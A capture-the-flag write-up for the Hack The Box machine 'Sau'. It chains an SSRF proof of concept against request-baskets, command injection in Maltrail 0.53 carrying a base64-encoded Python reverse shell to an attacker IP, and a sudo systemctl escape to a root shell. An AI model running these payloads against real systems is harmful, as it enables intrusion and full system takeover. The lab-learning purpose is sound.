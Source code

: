 # HTB Sau
## OS: Linux
## Difficulty: Easy

## Enumeration:

I'll start with port scan.

```bash
nmap -sC -sV 10.129.174.186
```

```
PORT      STATE    SERVICE VERSION                                                                                  
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                             
| ssh-hostkey:                                                                                                      
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)                                                      
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)                                                     
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)                                                   
80/tcp    filtered http                                                                                             
55555/tcp open     unknown                                                                                          
| fingerprint-strings:                                                                                              
|   FourOhFourRequest:                                                                                              
|     HTTP/1.0 400 Bad Request                                                                                      
|     Content-Type: text/plain; charset=utf-8                                                                       
|     X-Content-Type-Options: nosniff                                                                               
|     Date: Thu, 29 Aug 2024 08:25:14 GMT                                                                           
|     Content-Length: 75                                                                                            
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$                                       
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 29 Aug 2024 08:24:46 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 29 Aug 2024 08:24:46 GMT
|_    Content-Length: 0
```

Let's take a look at port 55555.

![pg](IMG/img1.png)

We can see that this web server uses request-baskets version 1.2.1.

I found a CVE for this version and also a POC.

https://github.com/entr0pie/CVE-2023-27163

This should allow us to see interact with the web server on port 80.

```bash
bash CVE-2023-27163.sh http://10.129.174.186:55555 http://localhost:80/

> Creating the "vzfieb" proxy basket...
> Basket created!
> Accessing http://10.129.174.186:55555/vzfieb now makes the server request to http://localhost:80/.
> Authorization: 4zdVwVnjsrKhp5A_oiONrzsH-u4SVYcXqcHrWaxP2smX
```

Now let's access the web server via http://10.129.174.186:55555/vzfieb .

![pgM](IMG/img2.png)


We can se Maltrail v0.53 is used. Searching for CVEs I found this: https://github.com/spookier/Maltrail-v0.53-Exploit

## Foothold:

The vulnerability is command execution in the login function.

I'll try to replicate it.

Encoding the payload:
```bash
echo "python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.142\",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'" |base64 -w0

cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMTQyIiw2NjY2KSk7b3MuZHVwMihzLmZpbGVubygpLDApO29zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7cHR5LnNwYXduKCIvYmluL3NoIiknCg==
```

Starting a listening port:
```bash
rlwrap nc -lnvp 6666
```

Making the request.

![Burp](IMG/img3.png)

![shell](IMG/img4.png)

It worked! Now we can get the user flag.

```bash
cd ~
cat user.txt
```

## We got the user flag!

## Privilege Escalation:

Let's see if we can run any command as the root user.
```bash 
sudo -l
```

```
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
I found out we can run commands using '!' before the command.
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/

We can run the the command as root and spawn an interactive shell afterwords.

```bash
sudo /usr/bin/systemctl status trail.service
!/bin/bash -i
```

![root](IMG/img5.png)

We are now root. Let's get the root flag.

```bash
cat /root/root.txt
```

## We got the root flag!